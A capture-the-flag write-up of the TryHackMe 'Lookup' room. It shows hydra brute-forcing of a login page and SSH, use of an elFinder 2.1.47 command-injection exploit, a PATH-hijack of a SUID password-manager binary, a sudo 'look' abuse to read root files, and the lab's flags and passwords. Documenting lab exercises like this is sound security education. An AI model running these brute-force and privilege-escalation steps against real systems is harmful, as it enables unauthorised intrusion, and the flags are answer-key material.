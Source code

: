 
[[TryHackMe]] Room

**Date**: 17/01/25
**Target IP**: 10.10.88.15

---
## **Initial Scanning**

**[[Nmap]] Results:**

- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

---
## **Exploration and Enumeration**

Login Page discovered at **Port 80**. Wrong password alert allows user enumeration leading to discovery that ==`admin`== user exists.

**DirSearch Results**:

```bash
Target: http://lookup.thm/

[11:47:15] Starting: 
[11:47:23] 403 -  275B  - /.ht_wsr.txt
[11:47:23] 403 -  275B  - /.htaccess.bak1
[11:47:23] 403 -  275B  - /.htaccess.sample
[11:47:23] 403 -  275B  - /.htaccess.orig
[11:47:23] 403 -  275B  - /.htaccess.save
[11:47:23] 403 -  275B  - /.htaccess_sc
[11:47:23] 403 -  275B  - /.htaccess_extra
[11:47:23] 403 -  275B  - /.htaccess_orig
[11:47:23] 403 -  275B  - /.htaccessBAK
[11:47:23] 403 -  275B  - /.htaccessOLD
[11:47:23] 403 -  275B  - /.htm
[11:47:23] 403 -  275B  - /.htaccessOLD2
[11:47:23] 403 -  275B  - /.html
[11:47:23] 403 -  275B  - /.htpasswd_test
[11:47:23] 403 -  275B  - /.httr-oauth
[11:47:23] 403 -  275B  - /.htpasswds
[11:47:24] 403 -  275B  - /.php
[11:47:47] 200 -    1B  - /login.php
[11:47:58] 403 -  275B  - /server-status/
[11:47:58] 403 -  275B  - /server-status
```

Ran [[hydra]] to brute-force the login page using the username admin : 

```bash
❯ hydra -l admin -P /usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt lookup.thm -s 5000 http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password." -I -vV -c 3
```

Brute-forcing appears successful : 

```
[80][http-post-form] host: lookup.thm   login: admin   password: password123
```

However, this is not the correct password for the admin user. Rather when using this combination despite using an existing username, we obtain the message : `Wrong username or password. Please try again. Redirecting in 3 seconds.` 

This may be indicative that the password exists in the database but is for another user. We thus iterate through a username list with the password obtained: 

```bash
❯ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p password123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Please try again." -I -vV -t 30
```

We obtain the following:

```
[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

---
## **Exploitation**

On logging in successfully, we obtain an elFinder file management page. The files seem to be full of random text.

`credentials.txt` possesses the credentials `think : nopassword`.

Inspecting the version of elFinder we discover it is **2.1.47**. There exists a known exploit which can be used to gain a shell through command injection. https://www.exploit-db.com/exploits/46481

We use this and gain a shell as **www-data** :

```bash
❯ python2.7 exploit.py http://files.lookup.thm/elFinder
```

We can [[Shell Upgrade]] if necessary.



---
## **Post-Exploitation**

Running linpeas gives the following :

```bash
-rwsr-sr-x 1 root root 17K Jan 11  2024 /usr/sbin/pwm (Unknown SUID binary!)
```

Running this binary outputs the following :

```bash
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

Running strings on this file allows us to deduce that this is some sort of password manager script that runs the `id` command to check who the current use is.  This can be vulnerable as it does not seem to be running `/bin/id`, meaning we can create our own `id` script and fool it into running it.

This is done as follows : 

```bash
www-data@lookup:/tmp$ export PATH="/tmp:$PATH"

www-data@lookup:/tmp$ echo '#!/bin/bash' > /tmp/id

www-data@lookup:/tmp$ echo "echo 'uid=1000(think) gid=1000(think) groups=1000(think)'" >> /tmp/id

www-data@lookup:/tmp$ chmod +x id

www-data@lookup:/tmp$ /usr/sbin/pwm
```

We obtain a list of passwords used by the think user.

We can use these to brute-force SSH into said user with [[hydra]] :

```bash
❯ hydra -l think -P ./jose_passwords lookup.thm ssh -t 4

[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)

```

We thus obtain the **user flag** ( /home/think/user.txt ) :
**38375fb4dd8baa2b2039ac03d92b820e**

---
## **Escalation**

```
think@lookup:~$ sudo -l

User think may run the following commands on lookup:
(ALL) /usr/bin/look
```

think can run `/usr/bin/look` as sudo. We can thus refer to [GTFOBins](https://gtfobins.github.io/) and gain privileged access to the `/root/root.txt` file to read it as follows : 

```bash
think@lookup:~$ sudo look -bdf "" /root/root.txt
```

We thus obtain the Root Flag :
**5a285a9f257e45c68bb6c9f9f57d18e8**

---
## **Summary**

- Login Page credentials : **jose:password123**
- elFinder 2.1.47 command injection exploit (https://www.exploit-db.com/exploits/46481)
- Create malicious `id` binary and exploit `/usr/sbin/pwm`
- think user SSH password : **josemario.AKA(think)**
- User Flag ( /home/think/user.txt ) : **38375fb4dd8baa2b2039ac03d92b820e**
- Exploit /usr/bin/look sudo access (  [GTFOBins](https://gtfobins.github.io/))
- Root Flag ( /root/root.txt ) : **5a285a9f257e45c68bb6c9f9f57d18e8**